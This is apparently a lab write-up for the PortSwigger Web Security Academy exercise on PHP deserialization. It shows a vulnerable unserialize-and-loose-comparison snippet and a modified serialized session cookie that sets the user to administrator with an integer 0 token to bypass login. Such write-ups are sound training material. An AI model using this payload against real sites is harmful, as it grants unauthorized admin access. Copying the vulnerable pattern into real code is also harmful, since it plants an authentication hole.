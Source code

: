 ```yaml
---
title: 'Lab: Modifying serialized data types'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Modifying serialized data types
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result
* Goal: To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.
You can log in to your own account using the following credentials: wiener:peter

## Background
Loose Comparison Operator in `PHP`
> `PHP` based logic is particularly vulnerable to this kind of manipulation due to the behavior of its **loose comparison operator(==)** when comparing different data types.
> For example: `5=="5"` will be true when two types are different.

Vulnerability:
> This becomes even stranger when comparing a string the integer 0: `0 == "Example string" // true`
How about if the website author use this kind of vulnerability as below to verify the admin user?
>```php!
>$login = unserialize($_COOKIE)
>if ($login['password'] == $password) {
>// log in successfully
>}
>```

## Recon
1. Recon Package
According to the package we intercepted, the cookie is set to base64-encoded string:
Session: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJmaWtlajZ6ZXN6ZmFudm53b2psYmM2NHllN3dxaG5heSI7fQ%3d%3d`
Decoded String: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"fikej6zeszfanvnwojlbc64ye7wqhnay";}`
![](https://i.imgur.com/B6addxR.png)

2. What if we modify the string?
The verification mechanism workflow is comparing the query user's `access_token` with its database data.
## Exp
1. Modify the string like below
Change the user to `administrator` and access token to integer `0` so that the comparison is always true.
Exploit Payload:
`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
Then we have admin panel on the screen.
![](https://i.imgur.com/X36upo8.png)

2. Delete Carlos like previous lab
:::spoiler Success Screenshot
![](https://i.imgur.com/PmCuBRF.png)
:::

## Reference